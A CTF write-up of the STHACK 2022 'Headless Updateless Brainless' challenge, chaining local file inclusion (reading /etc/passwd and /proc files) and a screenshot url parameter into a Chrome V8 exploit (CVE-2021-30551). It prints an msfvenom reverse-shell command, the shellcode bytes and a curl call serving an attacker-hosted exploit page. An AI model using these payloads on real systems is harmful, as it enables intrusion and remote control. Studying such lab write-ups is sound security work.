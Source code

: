 # Introduction

During the [STHACK 2022](https://sthack.fr) (CTF event \@Bordeaux
France), **[Laluka](https://twitter.com/TheLaluka)** has created few web
challenges including the **Headless Updateless Brainless** challenge
that had a \"pwn\" exploitation step.

To be honest, this challenge was not resolved by our team during the
CTF. Got stuck at the last final exploitation step. After chatting with
Laluka, he agreed to give us an access and try one more time to solve
it.

And this time, it worked great!

# Recon

## Main feature

The challenge URL displays the following page:

![](https://www.opencyber.com/wp-content/uploads/2022/05/chall_web_first_page-1.png)

The parameter **file** seems very interesting.

## Local File inclusion

The first try was to inject some local files into the parameter file,
like \"/etc/passwd\".

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_3-3.png)

As you can see, there is a user **chrome**. Maybe an hint for one next
step!

Next file: **/proc/mounts**

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_0-1.png)

There is the file **flag_random_name\_\*** in the root directory. But it
is not reachable directly with this first vulnerability. You will understand why exactly after leaking another file.

Also, there is a **/site** as well. There source code could be stored
here.

Next file: **/proc/self/cmdline**. This file is interesting to
understand what the comand line of the current process is doing:

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_1-1.png)

This is actually \"node chall.js\". The filename is **chall.js** which
may be located in the /site directory. Let\'s leak it using the same
vulnerability.

The bellow part of the source code shows why it is not possible to reach
the flag file using the first vulnerability.

![](https://www.opencyber.com/wp-content/uploads/2022/05/FLAG_FORBID-1.png)

By analyzing the rest of the source code, we can notice a new endpoint
which is **\"/coolish-unguessable-feature\"**.

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_4-1.png)

Let\'s reach it:

![](https://www.opencyber.com/wp-content/uploads/2022/05/PART2_GET2-1.png)

Reading the source code, a new parameter **\"url\"** can be added to the
URL:

![](https://www.opencyber.com/wp-content/uploads/2022/05/LEAK_CODE_1-1.png)

The parameter needs to start with **\"http\"** in order to take a
screenshot of the remote page. The **takeScreenshot** function is the
following:

![](https://www.opencyber.com/wp-content/uploads/2022/05/LEAK_CODE_2-2-1024x169.png)

The parameter **url** is controlled by the user. Let\'s try to make the
application reach ourself using the following payload:

``` {.wp-block-syntaxhighlighter-code .code}
http://headless-updateless-brainless.sthack.fr/coolish-unguessable-feature?url=http://IP:PORT/test
```

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_BROWSER_OUTDATED-1024x214.png)

We retrieve the Chrome version which seems very interesting (and not up to date).

## Browser vulnerability - Recon

So the browser used Chrome on version **89.0.4389.72**.

A quick (**no, kidding, it took times!**) research on
<https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=chrome> lead to the
following CVE:

**CVE-2021-30551** - Type confusion in V8 in Google Chrome prior to
91.0.4472.101 allowed a remote attacker to potentially exploit heap
corruption via a crafted HTML page.

Searching a Proof-of-Concept, the following link helped us to exploit
the vulnerability: <https://github.com/xmzyshypnc/CVE-2021-30551>.

Only the shellcode at the end of the PoC needs to be modified.

## Browser vulnerability - (Local exploitation)

### Building the shellcode - (Local exploitation)

Using msfvenom helped to build the shellcode:

``` {.wp-block-syntaxhighlighter-code .code}
msfvenom -p linux/x64/shell_reverse_tcp -a x64 --platform linux LHOST=192.168.122.1 LPORT=4444 -f hex

#Output: 6a2958996a025f6a015e0f05489748b90200115cc0a87a01514889e66a105a6a2a580f
#056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05
```

Let\'s change the shellcode by using a vim trick to add 0x before the
hexa value, and a comma:

![](https://www.opencyber.com/wp-content/uploads/2022/05/SC_MSFVENOM-1-1024x100.png)

This will take two values of hexa, add a prefix **,0x** to the pattern
found from the regex, which gives:

``` {.wp-block-syntaxhighlighter-code .code}
,0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,0x02,
0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,0x2a,0x58,
0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,0xf6,0x6a,0x3b,
0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x52,
0x57,0x48,0x89,0xe6,0x0f,0x05
```

Anyway, the new shellcode line is:

``` {.wp-block-syntaxhighlighter-code .code}
let shellcode = [0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,
0x02,0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,
0x2a,0x58,0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,
0xf6,0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,
0x48,0x89,0xe7,0x52,0x57,0x48,0x89,0xe6,0x0f,0x05];
```

### Remote Code Execution - (Local exploitation)

Let\'s the application get our .html file:

``` {.wp-block-syntaxhighlighter-code .code}
curl http://192.168.122.141:8082/coolish-unguessable-feature?url=http://:192.168.122.1:8000/exploit.html
```

The exploit.html file is reached which lead to exploit the vulnerability
that gives us a shell:

![](https://www.opencyber.com/wp-content/uploads/2022/05/RCE-1.png)

Thus the flag was\... Oops, cannot say, did not get the one during the
night!

Thanks **[Laluka](https://twitter.com/TheLaluka)** for the challenge and
the [STHACK](https://sthack.fr) for the event!

The challenges have been made public and can be found here:
[https://gitlab.com/TheLaluka/headless-updateless-brainless](https://gitlab.com/TheLaluka/headless-updateless-brainless)

